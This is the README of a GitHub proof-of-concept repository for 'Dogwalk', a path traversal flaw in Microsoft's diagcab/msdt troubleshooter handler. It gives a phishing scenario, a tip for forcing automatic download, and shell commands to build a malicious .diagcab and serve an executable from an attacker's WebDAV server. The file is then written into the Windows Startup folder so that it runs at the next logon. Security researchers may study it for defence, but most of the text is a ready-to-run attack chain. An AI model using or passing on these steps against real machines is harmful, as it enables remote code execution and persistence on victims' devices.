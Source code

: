 <div align=center>
<h1> Dogwalk Proof-of-Concept🐾</h1>
<pre><code>
<h><strong>🚨 Disclaimer 🚨</strong></h4>

<br><br>The PoC enables an attacker to be able to obtain <strong>Remote Code Injection</strong> on a Windows victim device.
<br>The goal of this repo is to make a PoC even more usable than the <a href=https://github.com/irsl/microsoft-diagcab-rce-poc>initial repo</a>.
<br>DO NOT USE IT WITHOUT PRIOR AUTHORIZATION!
<br><br><i>Regarding the damage caused and the simplicity of exploitation, I hope Microsoft will fix it</i>
</code></pre>
</div> 

***Core concept:*** path traversal vulnerability in Microsoft's Diagcab technology (`msdt`) that could lead to remote code execution.

You can find the full advisory in the [blog post](https://medium.com/@radimre83/the-trouble-with-microsofts-troubleshooters-6e32fc80b8bd)

The vulnerability has been reported for **2 years** (by [@irsl](https://github.com/irsl)) and still has **no fix**!


* [🧠 Understand it](#how-it-works)
* [🐾 Run it](#lets-get-it)

## How it works?

The Proof-of-Concept set up a webdav server hosting a malicious `.diagcab` file that will perform a path transversal to write a malicious executable in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`. Writing an executable in this folder will execute it each time the user start the windows machine, this is called ***Boot Logon Autostart Execution***.

So, basically what we need is:
* webDAV server
* Malicious `.diagcab` file
* Malicious executable *(legit one or basic text file is sufficient for the PoC)*

### 🎬 Scenario

1. The victim will visit a link (phishing, social engineering, or whatever) that will download the `.diagcab` file

*(💡 use `Content-type: application/octet-stream`response header to make the Browser automaticaly downloading the file when browsing the url)*

2. The victim click on the file download (could easily/accidentaly happen by just clicking on the browser download folder)
3. The cab file loads the webdav malicious executable -> ***(path transversal)** downloaded in Start up menu
4. The user restart his device -> ***(RCE)***

## Let's get it

If you are too lazy (or in a hurry) to proceed step-by-steps:
```shell
./hurry-dogwalk.sh [WEBDAV_URL]         # need docker
# Stop the server
./hurry-dogwalk.sh --clean
```

Otherwise ↓↓

### 🔨 Craft the  `.diagcab` file

* `.diagcfg` are simple XML files that hold reference to one or more diagnostic packages and provide meta information about them
* They are packaged into Microsoft cabinet file archives and saved with `.diagcab` extension.

Firt build `custom.diagcfg`:
```shell
./build-malicious-diagcfg.sh --url [WEBDAV_URL]
```

And build the `hotfix895214.diagcab`:
```shell
cabarc.exe n hotfix895214.diagcab custom.diagcfg
# run it on windows (or with wine). If you do not find carbarc.exe use http://jc.bellamy.free.fr/download/cabarc.exe or http://download.microsoft.com/download/platformsdk/cab/2.0/w98nt42kmexp/en-us/Cabsdk.exe
```

### 🏗️ Set up the server

Put the executable you want to transfer on victim machine within `./webdav/malicious` folder... *(Here use the classic `calc.exe`)*

...And launch the server:
```
perl diagcab-webdav-poc.pl
```

### 👁️ Wait and see...
